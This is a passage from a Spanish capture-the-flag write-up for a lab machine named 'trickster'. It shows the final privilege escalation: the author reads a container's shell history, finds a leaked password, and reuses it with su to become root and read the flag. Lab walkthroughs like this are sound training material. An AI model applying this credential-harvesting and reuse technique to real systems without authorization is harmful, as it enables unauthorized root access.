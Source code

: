 Conseguimos acceso al contenedor, todavía no se para que me puede servir esto pero vamos a investigar.

Rápidamente viendo el histórico de comandos del contendor encontramos una credencial.
```console
(remote) root@ae5c137aa8ef:/app# history                                                                                                
    1  apt update                                                                                                                       
    2  #YouC4ntCatchMe#                                                                                                                 
    3  apt-get install libcap2-bin                                                                                                      
    4  capsh --print                                                                                                                    
    5  clear
    6  capsh --print
    7  cd changedetectionio/
    8  ls
```

Con esta credencial no podemos migrar a `adam` pero si a `root` directamente.
```console
james@trickster:~$ su adam
Password: 
su: Authentication failure
james@trickster:~$ #YouC4ntCatchMe#^C
james@trickster:~$ su root
Password: 
root@trickster:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
root@trickster:/home/james#
```

Podemos leer la flag de `root`
```console
root@trickster:~# cat root.txt 
fa3b13db76e3a0...
```

¡Y ya estaría!

Happy Hacking! 🚀